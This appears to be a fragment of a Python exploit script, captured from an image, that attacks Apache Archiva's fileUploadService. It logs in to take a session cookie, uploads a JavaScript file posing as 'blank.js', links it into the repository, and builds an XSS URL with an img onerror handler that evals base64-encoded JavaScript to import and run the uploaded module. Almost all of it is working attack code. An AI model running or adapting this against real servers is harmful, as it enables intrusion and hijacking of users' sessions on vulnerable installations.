 ```python
    )

    print(headers)
    print(response.request.body)
    print(response)
    print(response.text)
    print(response.headers["Set-Cookie"].split("=")[1].split(";")[0])
    return response.headers["Set-Cookie"].split("=")[1].split(";")[0]


cookies = {
    "JSESSIONID": login(),
}


def upload():
    url = f"http://{host}/restServices/archivaUiServices/fileUploadService"

    data = {
        "pomFile": "false",
        "classifier": "",
        "packaging": "",
    }

    files = {"files[]": ("blank.js", file, "text/javascript")}

    response = requests.post(
        url, headers=headers, data=data, files=files, cookies=cookies
    )
    print(f"upload: { response }")
    print(response.text)


def link_file():
    response = requests.get(
        f"http://{host}/restServices/archivaUiServices/fileUploadService/save/internal/js/1/1/1.js",
        cookies=cookies,
        headers=headers,
    )
    print(f"link_file: { response }")
    print(response.text)


def xss():
    exploit = base64.b64encode(
        f"""import("./js/1/1/1-1.1.js").then(s=>{s.run("{host}")});""".encode()
    ).decode("utf-8")

    print(exploit)
    response = requests.get(
        f"""http://{host}/restServices/archivaUiServices/fileUploadService/save/internal/x"><img%20src="x"%20onerror="javascript:eval(atob('{exploit}'))">/exploit/2/1""",
        cookies=cookies,
        headers=headers,
    )

    print(f"xss: { response }")
    print(response.text)


upload()
link_file()
```